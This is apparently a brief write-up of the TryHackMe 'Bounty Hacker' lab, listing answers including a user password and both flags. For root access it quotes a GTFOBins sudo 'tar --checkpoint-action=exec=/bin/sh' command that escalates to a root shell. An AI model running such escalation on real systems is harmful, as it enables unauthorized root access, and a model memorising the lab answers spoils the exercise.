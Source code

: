 [THM] Bounty Hacker
======================
### undermouse, 31.10.2020

# Preparing enviroment

```bash
export IP=10.10.133.27
```

# 3 Who wrote the task list? 
## Answer
```
lin
```

#4 What service can you bruteforce with the text file found?
```
ssh
```

#5 User's password?
## Answer
```
RedDr4gonSynd1cat3
```

#6 user.txt
## Answer
```
THM{CR1M3_SyNd1C4T3}
```

#7 root.txt
Checked `sudo -l` and got `tar` allowed to run as superuser.

## From: https://gtfobins.github.io/gtfobins/tar/

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
   sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Answer
```
THM{80UN7Y_h4cK3r}
```